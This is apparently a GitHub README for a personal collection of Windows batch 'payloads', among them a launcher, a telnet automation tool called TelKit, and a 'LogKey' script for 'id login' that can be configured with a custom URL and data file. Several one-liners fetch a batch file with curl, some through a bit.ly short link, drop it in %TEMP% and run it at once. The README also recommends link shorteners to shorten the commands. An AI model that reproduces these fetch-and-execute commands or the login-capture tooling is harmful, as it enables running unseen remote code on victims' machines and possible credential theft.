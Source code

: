# Payloads
A collection of my custom safe (...for now hehe) payloads for Windows.<br>
Some payloads are for personal or educational use only and might not deliver the results you wanted.



## Batchfiles
Here are the individual batchfiles and how to use them.
> **Warning** <br>
> It is required to write the script into a file with different name **aside from r.bat** since r.bat is the default name that PLs.bat uses to name a payload it downloaded. If you want to use r.bat as the name of your manually downloaded payload, you may fork the repository and change the configuration variables inside PLs.bat.
> For scripts that include `cd %temp% &` in the command, you may change **%temp%** to a different folder of your choice. Be sure to select a directory and make sure that the directory is accessible to avoid errors when running the script.



### PLs.bat
[**PLs**](https://github.com/Jed556/Payloads/blob/main/PLs.bat) is the boss. This is the main launcher and download manager for all payloads.<br>

**Download and Run**
You may add additional arguments to the end of the command. Please refer to the **Arguments** section for more information.
```Batch
cmd /c curl -Lo pls.bat bit.ly/p-tk & pls
```

**Arguments**
Without arguments, or with missing arguments, the script will prompt you for the payload to run and the arguments to pass to it. The following table provides examples of how to run the script with different arguments:
|Index|Example|Description|
|:---:|:-----:|:--------- |
|1|**pls 1**|Specifies the **index** of the payload to run (default: none).|
|2|**pls 2 1**|Enables (**1**) or disables (**0**) debug mode (default: 0). This option will be passed to the specified payload.|
|*|**pls 3 0 2**|Arguments starting from index 3 are passed to the specified payload. Check the argument list for the specific payload you want to run, and add 1 to the indexes to understand the indexing better.|



### TelKit
[**Telkit**](https://github.com/Jed556/Payloads/blob/main/Telkit/telkit.bat) is a custom payload for telnet run automations. <br>

**Download and Run**
You may add additional arguments to the end of the command. Please refer to the **Arguments** section for more information.
```Batch
cmd /c cd %temp% & curl -Lo tk.bat raw.githubusercontent.com/Jed556/Payloads/main/TelKit/telkit.bat & tk
```

**Arguments**
|Index|Example|Description|
|:---:|:-----:|:--------- |
When arguments are missing or not provided, the script will prompt you for the telnet service to connect to. The following table provides examples of how to run the script with different arguments
|1|**tk 0**|Enable (**1**) or disable (**0**) debug mode (default:0)|
|2|**tk 1 1**|Specifies the index of the telnet service to connect to (default: none).|



### LogKey
[**LogKey**](https://github.com/Jed556/Payloads/blob/main/Logkey/logkey.bat) is a custom payload for id login. <br>

**Download and Run**
You may add additional arguments to the end of the command. Please refer to the **Arguments** section for more information.
```Batch
cmd /c curl -Lo lk.bat raw.githubusercontent.com/Jed556/Payloads/main/LogKey/logkey.bat & lk
```

**Arguments**
This script currently only has one argument, which enables or disables debug mode. However, you can configure the script's variables to specify your own URL and data file name and path. In the future, additional arguments may be added, such as a custom URL or the ability to input data as a string.
|Index|Example|Description|
|:---:|:-----:|:--------- |
|1|**lk 1**|Enable (**1**) or disable (**0**) debug mode (default:0)|



> **Note** <br>
> You may add `cd %temp% &` between `cmd /c` and `curl` for the files without a specific **cd** command to download and run inside Windows **%TEMP%** (temporary) folder.
> You may change the file name *(ex. ***pls.bat***)* to a different name of your choice. Be sure to change the name of the file in the command *(& ***pls***)* as well.
> You can adjust the individual configuration variables inside each script to your liking. Be sure to enter the correct values for the variables to avoid errors when running the script.



## Shortcuts
You may use link shorteners to shorten the commands. Here are some great link shorteners that you may use:<br>
**Bitly**: [bitly.com](https://bitly.com/)<br>
**Tinyurl**: [tinyurl.com](https://tinyurl.com/)<br>
**Rebrandly**: [rebrand.ly](https://rebrand.ly/)<br>
**Is.gd**: [is.gd](https://is.gd/)<br>
> I recommend using [**Bitly**](https://bitly.com/) or [**Tinyurl**](https://tinyurl.com/) since they are the only ones that I have tested so far. <br>